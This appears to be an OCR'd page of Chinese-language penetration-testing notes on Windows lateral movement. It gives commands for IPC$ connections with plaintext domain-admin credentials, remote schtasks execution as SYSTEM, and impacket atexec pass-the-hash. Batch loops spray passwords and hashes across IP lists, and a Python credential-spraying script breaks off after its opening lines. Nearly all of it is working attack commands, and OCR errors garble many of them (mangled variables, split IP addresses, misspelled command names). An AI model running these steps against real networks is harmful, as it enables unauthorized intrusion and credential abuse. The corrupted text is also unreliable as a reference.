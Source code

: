 schtasks >=Windows2012

```
net use \\192.168.3. 32\ipc$ "admin!@#45" /user:god.org\administrator #建立ipc连接:
copy add.bat \\192.168.3.32\c$ #复制文件到其c盘
schtasks /create /s 192. 168.3.32 / ru "SYSTEM" /tn adduser / sc DAILY /tr c:\add.bat /F #创建adduser任务对应执行文件
schtasks /run /s 192. 168.3.32 /tn adduser /i #运行adduser任务
schtaska /delete /s 192.168.3.21 /tn adduser / f#删除adduser任务
```



### 横向渗透明文HASH传递atexec-impacket

```
atexec.exe ./administrator:Admin12345@192.168.3.21 "whoami'
atexec.exe god/administrator:Adnin123450192.168.3.21 "whoami ”
atexec.exe -hashes:ccef208c6485269c20db2cad21734fe7
./administrator@192.168.3.21 "whoami”
```

### 横向渗透明文HASH传递批量利用-综合

```
FOR /F 88i in (ips. txt) do net use \\88i\ipc$ "admin!@#45" /user :administrator # 批量检测IP对应明文连接
FOR /F 88i in (ips. txt) do atexec.exe ./administrator:admin!@#45@%%i whoami #批量检测IP对应明文回显版
FOR /F %%i in (pass.txt) do atexec.exe ./ administrator:%%i@192.168.3.21 whoami #批量检测明文对应IP回显版
FOR /F %%i in (hash.txt) do atexec.exe -hashes:%%i ./administrator@192.168.3.21 whoami #批量检测HAsH对应IP回显版
```

### 横向渗透明文HASH传递批量利用-升级版

前期除了收集明文密码HASH等，还收集了用户名，用户名配合密码字典能吃西瓜?

```
net use \\192.168.3.32\ipcS admin!@#45 /user:god\dbadmin
```



```python
#pip install pyinstaller
#pyinstaller -F fuck_neiwang_001.py 生成可执行EXE

import os
import time
ips={
'192.168.3.21',
'192.168.3.25',
'192.168.3.291'
}
users={
'Administrator',
'boss',
'dbadmin',
'fileadmin',
'mack',
'mary',
'vpnadm',
'webadmin'
}
passs={
'admin',
'admin!@34',
'Admin123'
}
for ip in ips:
```